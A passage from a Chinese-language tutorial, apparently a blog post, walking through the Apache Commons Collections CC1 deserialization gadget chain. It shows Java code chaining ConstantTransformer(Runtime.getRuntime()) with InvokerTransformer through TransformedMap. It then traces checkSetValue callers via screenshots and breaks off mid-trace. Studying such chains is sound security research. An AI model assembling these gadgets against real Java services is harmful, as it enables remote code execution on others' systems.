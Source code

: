```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer(methodName, paramTypes, argsForConstructor)
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,chainedTransformer);
        transformedMap.put(null,null);
    }
}
```

结果如下-->

![alt text](image-48.png)

## 再探茅庐

上面提到 CC1 从一开始找 transform 的同名函数时候，并不是找的 transformValue 这个方法，而是下面这里-->

```java
protected Object checkSetValue(Object value) {
    return valueTransformer.transform(value);
}
```

这个 valueTransformer 的赋值并没有变，还是这一段代码`Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,chainedTransformer);`接下来就去找谁调用了 checkSetValue 这个函数，很巧，只有一处调用了

![alt text](image-56.png)

这里迷住了，这个 parent 是从何而来？能不能被控制？这里就一步步向上跟代码，AbstractInputCheckedMapDecorator 类中从下往上是这样的-->

第 188 行：

![alt text](image-58.png)

第 174 行：

![alt text](image-59.png)

第 169 行：

![alt text](image-60.png)

第 122 行：

![alt text](image-61.png)

第 118 行：

![alt text](image-62.png)

第 101 行：
